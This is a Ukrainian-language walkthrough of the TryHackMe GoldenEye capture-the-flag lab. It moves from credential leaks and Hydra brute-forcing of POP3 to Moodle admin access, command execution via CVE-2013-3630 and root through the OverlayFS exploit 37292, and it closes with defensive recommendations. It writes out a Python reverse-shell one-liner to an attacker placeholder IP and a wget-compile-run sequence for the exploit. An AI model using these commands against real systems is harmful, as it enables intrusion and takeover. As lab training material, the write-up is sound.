# GoldenEye
## Bond, James Bond. A guided CTF.

Складність: Medium

Ціль: 10.112.135.94

## 1. Розвідка (Reconnaissance & Enumeration)

### 1.1. Сканування портів (Nmap):
Починаю зі сканування всіх TCP-портів, визначення сервісів і запуску стандартних NSE-скриптів:
```bash
└─$ sudo nmap -sC -sV -p- -vv -oN nmap_result.txt 10.112.135.94
```




### 1.2. Веб-розвідка:
На головній сторінці знаходжу підказку щодо `/sev-home/`. Під час аналізу вихідного коду переглядаю JavaScript-файл:
`http://10.112.135.94/terminal.js`



У коментарі до скрипту залишено ім'я `Boris` та пароль, представлений десятковими HTML-сутностями (&#73;&#110;...). Декодую його через CyberChef: `boris:InvincibleHack3r`



З отриманими даними авторизуюся за адресою `http://10.112.135.94/sev-home/`. Ім'я користувача необхідно вводити в нижньому регістрі - `boris`.





На сторінці та в її коді знаходжу додаткове ім'я користувача `natalya`. Це привід перевірити доступ до поштового сервісу.

### 1.3. Дослідження POP3 та пошук облікових даних
Спроба авторизуватися на `55007/tcp` із паролем `Boris`-a, знайденим у JavaScript, завершується помилкою: вебпароль не підходить до POP3.
```bash
nc -nv 10.112.135.94 55007
```



Формую файл `users.txt` з іменами `boris` і `natalya` та перевіряю невеликий словник паролів за допомогою `Hydra`:
```bash
hydra -L users.txt -P /usr/share/wordlists/fasttrack.txt -V -f -s 55007 10.112.135.94 pop3
```

Знайдено пару `natalya:bird`.



Повторно підключаюся до `POP3` і читаю листи `Natalya`:
```bash
nc -nv 10.112.135.94 55007
USER natalya
PASS bird
STAT
LIST
RETR 1
RETR 2
```



В одному з листів знаходжу адресу навчального порталу severnaya-station.com/gnocertdir/, а також облікові дані `xenia:RCP90rulez!`.

### 1.4. Moodle: від Xenia до адміністратора
Щоб домен відкривався, додаю в `/etc/hosts` на Kali відповідність між доменом та IP навчальної машини `10.112.135.94 severnaya-station.com`. Відкриваю http://severnaya-station.com/gnocertdir/ та входжу як `xenia`. Портал використовує `Moodle`. У повідомленнях знаходжу згадку про користувача `Dr Doak`. 



Знову запускаю брут.
```bash
hydra -l doak -P /usr/share/wordlists/fasttrack.txt -V -f -s 55007 10.112.135.94 pop3
```



Отримую логінпасс `doak:goat`. Перевіряю його листи.
```bash
nc -nv 10.112.135.94 55007
USER doak
PASS goat
STAT
LIST
RETR 1
```



У листі містяться облікові дані для вебпорталу Moodle: `dr_doak:4England!`. Авторизуюсь та знаходжу `s3cret.txt`.



Під час дослідження картинки знайдено такі метадані.





Отриманий пароль підходить до облікового запису `admin` у Moodle. **Таким чином, доступ до адміністративної панелі отримано без експлуатації вебвразливості: через послідовний витік облікових даних**.

## 2. Точка входу (Initial Access / Foothold)

### 2.1. Експлуатація вразливості Moodle (CVE-2013-3630)
На сервері працює `Moodle 2.2.3`, вразлива до `CVE-2013-3630` - виконання довільних команд через налаштування шляху до програми перевірки орфографії `aspell`. 
Адміністратор може змінити `Path to aspell` у меню: **Site administration → Server → System paths**.
Уразливість полягає в тому, що налаштоване значення використовується для запуску перевірки орфографії без належного обмеження виконуваної команди. Замість шляху до `aspell` можна вказати команду, яку сервер виконає від імені вебпроцесу.
Для зворотного підключення готую Python-команду:
```bash
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOUR_TUN0_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Вставляю її в поле `Path to aspell` та зберігаю зміни. Далі в налаштуваннях редактора `TinyMCE HTML editor` змінюю механізм перевірки орфографії (Spell engine) на `PSpellShell`.

### 2.2. Отримання reverse shell
Запускаю `Netcat` у режимі очікування підключення:
```bash
nc -lvnp 4444
```

У Moodle створюю новий запис блогу та натискаю кнопку перевірки орфографії в редакторі `TinyMCE`. Під час обробки запиту сервер виконує вказану команду й підключається до Kali.
Перевіряю, від чийого імені відкрито оболонку:
```bash
whoami
id
uname -r
```

Отримано оболонку користувача `www-data`. Версія ядра: `3.13.0-32-generic`.



## 3. Підвищення привілеїв (Privilege Escalation)

### 3.1 Вертикальне підвищення (www-data → Root)
Ядро `3.13.0-32-generic` відповідає вразливому середовищу для `CVE-2015-1328 (OverlayFS Local Privilege Escalation)`. Для нього доступний публічний експлойт `Exploit-DB 37292`.
Проблема пов'язана з некоректною перевіркою прав доступу в `OverlayFS` у поєднанні з просторами імен користувачів (user namespaces). Експлойт використовує цю помилку, щоб вплинути на `/etc/ld.so.preload` і домогтися завантаження створеної бібліотеки під час запуску `/bin/su`, після чого відкривається оболонка з підвищеними привілеями.

На Kali отримую вихідний код:
```bash
searchsploit -m 37292
```

У коді експлойта є виклик `gcc` для створення динамічної бібліотеки. Якщо на цільовій машині немає `gcc`, але є `cc`, замінюю виклик:
```bash
sed -i 's/gcc/cc/g' 37292.c
```

Підіймаю на Kali тимчасовий HTTP-сервер у каталозі з файлом:
```bash
python3 -m http.server 8000
```

Через отриманий shell на GoldenEye передаю, компілюю й запускаю експлойт:
```bash
cd /tmp
wget http://YOUR_TUN0_IP:8000/37292.c
cc 37292.c -o exploit
./exploit
```

Перевіряю результат:
```bash
id
whoami
ls -la /root
cat /root/.flag.txt
```

Результат: `uid=0(root)` - права суперкористувача отримано. Знайдено фінальний прапор машини.



## Висновки та рекомендації

### Висновки
У GoldenEye повний компроміс системи став можливим завдяки ланцюжку взаємопов'язаних слабких місць: пароль у JavaScript-коментарі → доступ до пошти через слабкі паролі `POP3` → нові облікові дані в листах → пароль адміністратора в метаданих зображення → RCE в застарілій Moodle → підвищення привілеїв через вразливе ядро Linux.
**Основний висновок:** навіть незначний витік інформації на початковому етапі може стати відправною точкою для повного захоплення сервера, якщо інші компоненти системи також недостатньо захищені.

### Рекомендації із захисту
  * Облікові дані: не залишати паролі в JavaScript, HTML-коментарях, електронних листах і метаданих файлів; використовувати унікальні стійкі паролі та MFA там, де це можливо.
  * Поштова служба: вимагати шифрування для POP3, обмежувати кількість невдалих входів і відстежувати підбір паролів; за відсутності необхідності відключати застарілі протоколи.
  * Moodle: перейти на підтримувану версію; не дозволяти через вебінтерфейс задавати довільні системні команди, жорстко обмежувати шляхи до виконуваних файлів.
  * Linux: регулярно оновлювати ядро й пакети безпеки, мінімізувати привілеї вебпроцесу, контролювати небезпечні можливості локального підвищення привілеїв.
  * Моніторинг: журналювати адміністративні зміни, підозрілі входи та нетипові вихідні з'єднання вебсервера.

## Посилання
- [Moodle Authenticated Spelling Binary RCE — Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/moodle_spelling_binary_rce/)
- [CVE-2013-3630 — CVE](https://www.cve.org/CVERecord?id=CVE-2013-3630)
- [CVE-2015-1328 / Exploit-DB 37292 — OverlayFS](https://www.exploit-db.com/exploits/37292)

**Опис стосується навчального CTF-середовища TryHackMe GoldenEye.**
